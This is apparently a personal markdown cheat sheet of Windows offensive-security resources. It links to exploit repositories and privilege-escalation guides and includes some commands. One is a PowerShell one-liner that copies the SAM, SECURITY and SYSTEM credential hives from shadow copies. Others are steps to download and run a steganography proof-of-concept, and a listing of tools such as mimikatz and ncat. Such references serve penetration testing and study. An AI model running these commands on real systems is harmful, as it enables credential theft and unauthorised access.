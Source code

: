 # Windows Commands:
1. https://ss64.com/nt/
2. https://ss64.com/ps/

# Windows Binaries 
https://learn.microsoft.com/en-us/sysinternals/downloads/

# Living Off the Land:
https://lolbas-project.github.io/

# Windows Exploits:
1. Windows Kernel Exploits — https://github.com/SecWiki/windows-kernel-exploits
2. LOLBins - https://lolbas-project.github.io/#
3. Windows Takeover completely from Linux — https://www.sprocketsecurity.com/blog/the-ultimate-tag-team-petitpotam-and-adcs-pwnage-from-linux
4. Windows Credentials — https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them
5. Microsoft Won't Fix List — https://github.com/cfalta/MicrosoftWontFixList/blob/main/README.md
6. https://github.com/GossiTheDog/HiveNightmare
7. https://github.com/GossiTheDog/SystemNightmare
8. https://github.com/leechristensen/SpoolSample
9. https://github.com/topotam/PetitPotam
10. https://github.com/antonioCoco/RemotePotato0
11. https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH
12. https://github.com/cube0x0/CVE-2021-1675
13. maps Windows APIs to common techniques used by malware - https://malapi.io/

### HiveNightmare Powershell One Liner:
https://twitter.com/splinter_code/status/1420546784250769408
```
powershell -c "foreach ($i in 1..10){$p='\\.\HarddiskVolumeShadowCopy{0}\windows\system32\config\' -f $i; gi $($p+'SAM'),$($p+'SECURITY'),$($p+'SYSTEM') -ErrorAction SilentlyContinue | % {cp $_.FullName $($_.BaseName+$i)}}"
```



### System Nightmare Incognito 
Install Packages if Needed.
```
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade Pillow
or
python -m pip install --upgrade pip
python -m pip install --upgrade Pillow
Install Bitstring
python3 -m pip install --upgrade bitstring
```
Download: 
1. https://raw.githubusercontent.com/ciwen3/Public/master/python/steganography/Steganograpy-PoC.py
2. https://github.com/ciwen3/Public/raw/master/python/steganography/resources/rednightmare.PNG

In CMD run:
```
python ./Steganograpy-Poc.py ./rednightmare.PNG
```
Alternate:
download the exe (might get flagged as malicious)
https://github.com/ciwen3/Public/blob/master/python/steganography/Steganograpy-PoC.exe?raw=true

# Windows AD take over completely from Linux:
https://www.sprocketsecurity.com/blog/the-ultimate-tag-team-petitpotam-and-adcs-pwnage-from-linux

# Windows Login Credentials:
https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them

# Checklist:
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

# Windows Privilege Escalation:
https://www.fuzzysecurity.com/tutorials/16.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html


# Find Windows 10 Product Key on a New Computer:
```
wmic path SoftwareLicensingService get OA3xOriginalProductKey
```

# Windows Resources in Kali:
```
/usr/share/windows-resources$ ls

binaries  
hyperion  
mimikatz  
ncat      
nishang  
ollydbg  
powersploit  
sbd          
sqldict  
tftpd32
wce
```

